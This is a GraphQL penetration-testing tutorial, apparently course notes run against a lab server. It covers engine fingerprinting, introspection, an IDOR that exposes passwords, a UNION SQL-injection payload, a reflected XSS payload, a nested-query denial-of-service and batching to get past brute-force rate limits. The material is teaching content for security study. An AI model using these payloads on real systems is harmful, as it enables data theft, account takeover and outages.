# GraphQL

## Introduction

GraphQL is a query language typically used by web APIs as an alternative to REST. It enables the client to fetch required data through a simple syntax while providing a wide variety of features typically provided by query languages, such as SQL. Like REST APIs, GraphQL APIs can read, update, create, or delete data. However, GraphQL APIs are typically implemented on a single endpoint that handles all queries. As such, one of the primary benefits of using GraphQL over traditional REST APIs is the efficiency in resource utilization and request handling.

### Basic Overview

A GraphQL service typically runs on a single endpoint to receive queries. Most commonly, the endpoint is located at `/graphql`, `/apu/graphql`, or a similar URL. For frontend web applications to use this GraphQL endpoint, it needs to be exposed. Just like REST APIs, you can, however, interact with the GraphQL endpoint directly without going through the frontend web application to identify security vulnerabilities.

From an abstract point of view, GraphQL queries select fields of objects. Each object is of a specific type defined by the backend. The query is structured according to GraphQL syntax, with the name of the query to run at the root. For instance, you can query the `id`, `username`, and `role` fields of all User objects by running the users query:

```graphql
{
  users {
    id
    username
    role
  }
}
```

The resulting GraphQL response is in the same way and might look something like this:

```graphql
{
  "data": {
    "users": [
      {
        "id": 1,
        "username": "htb-stdnt",
        "role": "user"
      },
      {
        "id": 2,
        "username": "admin",
        "role": "admin"
      }
    ]
  }
}
```

If a query supports arguments, you can add a supported argument to filter the query results. For instance, if the query `users` supports the username argument, you can query a specific user by supplying their username:

```graphql
{
  users(username: "admin") {
    id
    username
    role
  }
}
```

You can add or remove fields from the query you are interested in. For instance, if you are not interested in the `role` field and instead want to obtain the user's password, you can adjust the query accordingly:

```graphql
{
  users(username: "admin") {
    id
    username
    password
  }
}
```

Furthermore, GraphQL queries support sub-querying, which enables a query to retrieve details from an object that references another object. For instance, assume that a `posts` query returns a field `author` that holds a user object. You can then query the username and role of the author in your query like so:

```graphql
{
  posts {
    title
    author {
      username
      role
    }
  }
}
```

The result contains the title of all posts as well as the queried data of the corresponding author:

```graphql
{
  "data": {
    "posts": [
      {
        "title": "Hello World!",
        "author": {
          "username": "htb-stdnt",
          "role": "user"
        }
      },
      {
        "title": "Test",
        "author": {
          "username": "test",
          "role": "user"
        }
      }
    ]
  }
}
```

## Attacking GraphQL

### Information Disclosure

#### Identifying the GraphQL Engine

After logging in to the sample web application and investigating all functionality, you can observe multiple requests to the `/graphql` endpoints that contain GraphQL queries:



Thus, you can definitely say that the web application implements GraphQL. As a first step, you will identify the GraphQL engine used by the web application using the tool [graphw00f](https://github.com/dolevf/graphw00f). Graphw00f will send various GraphQL queries, including malformed queries, and can determine the GraphQL engine by observing the backend's behavior and error messages in response to these queries.

After cloning the git repo, you can run the tool using the `main.py` Python script. You will run the tool in fingerprint (_`-f`_) and detect mode (_`-d`_). You can provide the web application's base URL to let graphw00f attempt to find the GraphQL endpoint by itself:

```bash
d41y@htb[/htb]$ python3 main.py -d -f -t http://172.17.0.2

                +-------------------+
                |     graphw00f     |
                +-------------------+
                  ***            ***
                **                  **
              **                      **
    +--------------+              +--------------+
    |    Node X    |              |    Node Y    |
    +--------------+              +--------------+
                  ***            ***
                     **        **
                       **    **
                    +------------+
                    |   Node Z   |
                    +------------+

                graphw00f - v1.1.17
          The fingerprinting tool for GraphQL
           Dolev Farhi <dolev@lethalbit.com>
  
[*] Checking http://172.17.0.2/
[*] Checking http://172.17.0.2/graphql
[!] Found GraphQL at http://172.17.0.2/graphql
[*] Attempting to fingerprint...
[*] Discovered GraphQL Engine: (Graphene)
[!] Attack Surface Matrix: https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/implementations/graphene.md
[!] Technologies: Python
[!] Homepage: https://graphene-python.org
[*] Completed.
```

As you can see, the graphw00f identified the GraphQL Graphene. Additionally, it provides you with the corresponding detailed page in the GraphQL-Threat-Matrix, which provides more in-depth information about the identified GraphQL engine:



Lastly, by accessing the `/graphql` endpoint in a web browser directly, you can see that the web application runs a graphiql interface. This enables you to provide GraphQL queries directly, which is a lot more convenient than running the queries through Burp, as you do not need to worry about breaking the JSON syntax.

#### Introspection

... is a GraphQL feature that enables users to query the GraphQL API about the structure of the backend system. As such, users can use introspection queries to obtain all queries supported by the API schema. These introspection queries query the `__schema` field.

For instance, you can identify all GraphQL types supported by the backend using the following query:

```graphql
{
  __schema {
    types {
      name
    }
  }
}
```

The results contain basic default types, such as `Int` or `Boolean`, but also all custom types, such as `UserObject`:



Now that you what type, you can follow up and obtain the name of all of the type's fields with the following introspection query:

```graphql
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

In the result, you can see details you would expect from a `UserObject`, such as username and password, as well as their data types:



Furthermore, you can obtain all the queries supported by the backend using this query:

```graphql
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

Knowing all supported queries helps you identify potential attack vectors that you can use to obtain sensitive information. Lastly, you can use the following "general" introspection query that dumps all information about types, fields, and queries supported by the backend:

```graphql
query IntrospectionQuery {
      __schema {
        queryType { name }
        mutationType { name }
        subscriptionType { name }
        types {
          ...FullType
        }
        directives {
          name
          description
          
          locations
          args {
            ...InputValue
          }
        }
      }
    }

    fragment FullType on __Type {
      kind
      name
      description
      
      fields(includeDeprecated: true) {
        name
        description
        args {
          ...InputValue
        }
        type {
          ...TypeRef
        }
        isDeprecated
        deprecationReason
      }
      inputFields {
        ...InputValue
      }
      interfaces {
        ...TypeRef
      }
      enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
      }
      possibleTypes {
        ...TypeRef
      }
    }

    fragment InputValue on __InputValue {
      name
      description
      type { ...TypeRef }
      defaultValue
    }

    fragment TypeRef on __Type {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```

The result of this query is quite large and complex. However, you can visualize the schema using the tool [GraphQL-Voyager](https://github.com/graphql-kit/graphql-voyager).



### IDOR

#### Identifying IDOR

To identify issues related to broken authorization, you first need to identify potential attack points that would enable you to access data you are not authorized to access. Enumerating the web application, you can observe that the following GraphQL query is sent when you access your user profile:



As you can see, user data is queried for the username provided in the query. While the web application automatically queries the data for the user you logged in with, you should check if you can access other users' data. To do so, provide a different username you know exists: test. Note that you need to escape the double quotes inside the GraphQL query so as not to break JSON syntax:



As you can see, you can query the user test's data without any additional authorization checks. Thus, you successfully confirmed a lack of authorization checks in this GraphQL query.

#### Exploiting IDOR

To demonstrate the impact of this IDOR vuln, you need to identify the data that can be accessed without authorization. To do so, you are going to use the following introspection queries to determine all fields of the `User` type:

```graphql
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

As you can see from the result, the `UserObject` contains a password field that, presumably, contains the user's password:



Adjust the initial GraphQL query to check if you can exploit the IDOR vuln to obtain another user's password by adding the `password` field in the GraphQL query:

```graphql
{
  user(username: "test") {
    username
    password
  }
}
```

From the result, you can see that you have successfully obtained the user's password:



### Injection Attacks

#### SQLi

Since GraphQL is a query language, the most common use case is fetching data from some kind of storage, typically a database. As SQL databases are one of the most predominant forms of databases, SQLi vulns can inherently occur in GraphQL APIs that do not properly sanitize user input from arguments in the SQL queries executed by the backend. Therefore, you should carefully investigate all GraphQL queries, check whether they support arguments, and analyze these arguments for potential SQLis.

Using the introspection query and some trial-and-error, you can identify that the backend supports the following queries that require arguments:

- `post`
- `user`
- `postByAuthor`

To identify if a query requires an argument, you can send the query without any arguments and analyze the response. If the backend expects an argument, the response contains an error that tells you the name of the required argument. For instance, the following error message tells you that the `postByAuthor` query requires the `author` argument.



After supplying the `author` argument, the query is executed successfully:



You can now investigate whether the `author` argument is vulnerable to SQLi. For instance, if you try a basic SQLi payload, the query does not return any result.



Move on to the `user` query. If you try the same payload there, the query still returns the previous result, indicating a SQLi vuln:



If you simply inject a single quote, the response contains a SQL error, confirming the vuln:



Since the SQL query is displayed in the SQL error, you can construct a UNION-based SQLi query to exfiltrate data from the SQL database.

To construct a UNION-based SQLi payload, take another look at the result of the introspection query:


The vulnerable `user` query returns a `UserObject`, so focus on that object. As you can see, the object consists of six fields and links (_`posts`_). The fields correspond to columns in the database table. As such, your UNION-based SQLi payload needs to contain six columns to match the number of columns in the original query. Furthermore, the fields you specify in your GraphQL query correspond to the columns returned in the response. For instance, since the `username` is a `UserObject`'s third field, querying for the `username` will result in the third column of your UNION-based payload being reflected in the response.

As the GraphQL query only returns the first row, you will use the GROUP_CONCAT function to exfiltrate multiple rows at a time. This enables you to exfiltrate all table names in the current database with the following payload:

```graphql
{
  user(username: "x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") {
    username
  }
}
```

The response contains all table names concatenated in the `username` field:

```graphql
{
  "data": {
    "user": {
      "username": "user,secret,post"
    }
  }
}
```

Since this is a SQLi vuln, similar to any other web app, you can utilize all SQL payloads and attack vectors to enumerate column names and ultimately exfiltrate data.

#### XSS

XSS vulns can occur if GraphQL responses are inserted into the HTML page without proper sanitization. Similar to the above SQLi vuln, you should investigate any GraphQL arguments for potential XSS injections points. However, in this case, neither queries return an XSS payload.

XSS vulns can also occur if invalid arguments are reflected in error messages. Examine the `post` query, which requires an integer ID as an argument. If you instead submit a string argument containing an XSS payload, you can see that the XSS payload is reflected without proper encoding in the GraphQL error message:



However, if you attempt to trigger the URL from the corresponding GET parameter by accessing the URL `/post?id=<script>alert(1)</script>`, you can observe that the page simply breaks, and the XSS payload is not triggered.

### DoS & Batching

#### DoS

To execute a DoS attack, you must identify a way to construct a query that results in a large response. Look at the visualization of the introspection results. You can identify a loop between `UserObject` and `PostObject` via the `author` and `post` fields:



You can abuse this loop by constructing a query that queries the author of all posts. For each author, you then query the author of all posts again. If you repeat this many times, the result grows exponentially larger, potentially resulting in a DoS scenario.

Since the `posts` object is a connection, you need to specify the edges and node fields to obtain a reference to the corresponding `Post` object. As an example, query the author of all posts. From there, you will query all posts by each author and then author's username for each of these posts:

```graphql
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              username
            }
          }
        }
      }
    }
  }
}
```

This is an infinite loop you can repeat as many times as you want. If you take a look at the result of this query, it is already quite large because the response grows exponentially larger with each iteration of the loop you query:



Making your initial query larger will significantly slow down the server, potentially causing availability issues for other users. For instance, the following query crashes the GraphiQL instance:

```graphql
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              posts {
                edges {
                  node {
                    author {
                      posts {
                        edges {
                          node {
                            author {
                              posts {
                                edges {
                                  node {
                                    author {
                                      posts {
                                        edges {
                                          node {
                                            author {
                                              posts {
                                                edges {
                                                  node {
                                                    author {
                                                      posts {
                                                        edges {
                                                          node {
                                                            author {
                                                              posts {
                                                                edges {
                                                                  node {
                                                                    author {
                                                                      username
                                                                    }
                                                                  }
                                                                }
                                                              }
                                                            }
                                                          }
                                                        }
                                                      }
                                                    }
                                                  }
                                                }
                                              }
                                            }
                                          }
                                        }
                                      }
                                    }
                                  }
                                }
                              }
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}

```



#### Batching Attacks

Batching in GraphQL refers to executing multiple queries with a single request. You can do so by directly supplying multiple queries in a JSON list in the HTTP request. For instance, you can query the ID of the user `admin` and the title of the first post in a single request:

```http
POST /graphql HTTP/1.1
Host: 172.17.0.2
Content-Length: 86
Content-Type: application/json

[
	{
		"query":"{user(username: \"admin\") {uuid}}"
	},
	{
		"query":"{post(id: 1) {title}}"
	}
]
```

The response contains the requested information in the same structure you provided the query in:



Batching is not a security vulnerability but an intended feature that can be enabled or disabled. However, batching can lead to security issues if GraphQL queries are used for sensitive processes such as user login. Since batching enables an attacker to provide multiple GraphQL queries in a single request, it can potentially be used to conduct brute-force attacks with significantly fewer HTTP requests. This could lead to bypasses of security measures in place to prevent brute-force attacks, such as rate limits.

For instance, assume a web app uses GraphQL queries for user login. The GraphQL endpoint is protected by a rate limit, allowing only five requests per second. An attacker can brute-force user accounts at a rate of only five passwords per second. However, using GraphQL batching, an attacker can put multiple login queries into a single HTTP request. Assuming the attacker constructs an HTTP request containing 1000 different GraphQL login queries, the attacker can now brute-force user accounts with up to 5000 passwords per second, rendering the rate limit ineffective. Thus, GraphQL batching can enable powerful brute-force attacks.

### Mutations

#### What are Mutations?

Mutations are GraphQL queries that modify server data. They can be used to create new objects, update existing objects, or delete existing objects.

Start by identifying all mutations supported by the backend and their arguments. Use the following introspection query:

```graphql
query {
  __schema {
    mutationType {
      name
      fields {
        name
        args {
          name
          defaultValue
          type {
            ...TypeRef
          }
        }
      }
    }
  }
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}
```

From the result, you can identify a mutation `registerUser`, presumably allowing you to create new users. The mutation requires a `RegisterUserInput` object as an input.

